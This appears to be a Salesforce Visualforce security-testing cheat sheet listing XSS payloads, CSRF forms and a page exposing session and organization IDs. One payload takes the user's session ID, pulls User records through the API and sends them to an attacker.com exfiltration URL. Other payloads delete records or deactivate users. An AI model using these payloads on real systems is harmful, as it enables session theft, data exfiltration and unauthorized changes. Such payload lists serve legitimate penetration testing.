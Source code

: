 **XSS Testing Payloads**:
```html
<!-- Basic XSS payload -->
<script>alert('XSS')</script>

<!-- Event handler XSS -->
<img src="x" onerror="alert('XSS')">

<!-- JavaScript protocol -->
<a href="javascript:alert('XSS')">Click</a>

<!-- Advanced payload for data extraction -->
<script>
fetch('/services/data/v52.0/sobjects/User/', {
    headers: {'Authorization': 'Bearer ' + '{!$Api.Session_ID}'}
}).then(r=>r.json()).then(d=>fetch('http://attacker.com/exfil?data='+btoa(JSON.stringify(d))));
</script>

<!-- SVG-based XSS -->
<svg/onload=alert(document.domain)>

<!-- Style-based XSS -->
<div style="animation-name:rotation" onanimationstart="alert(1)" x="">
```

**CSRF Vulnerability Testing**:
```html
<!-- Test CSRF protection -->
<form action="/apex/VulnerablePage" method="POST">
    <input type="hidden" name="action" value="deleteRecord">
    <input type="hidden" name="recordId" value="001XX000003DHPt">
    <input type="submit" value="Delete Account">
</form>

<!-- Advanced CSRF with AJAX -->
<script>
fetch('/apex/VulnerablePage', {
    method: 'POST',
    headers: {'Content-Type': 'application/x-www-form-urlencoded'},
    body: 'action=modifyUser&userId=005XX000001b0Qw&isActive=false'
});
</script>
```

**Information Disclosure Assessment**:
```html
<!-- Check for sensitive data exposure -->
<apex:page showHeader="false">
    Session ID: {!$Api.Session_ID}
    User ID: {!$User.Id}
    Organization ID: {!$Organization.Id}
    
    <!-- Debug information exposure -->
    <apex:pageMessages />
    
    <!-- Server-side debugging -->
    <apex:outputText value="{!debugInfo}" escape="false"/>
</apex:page>
```
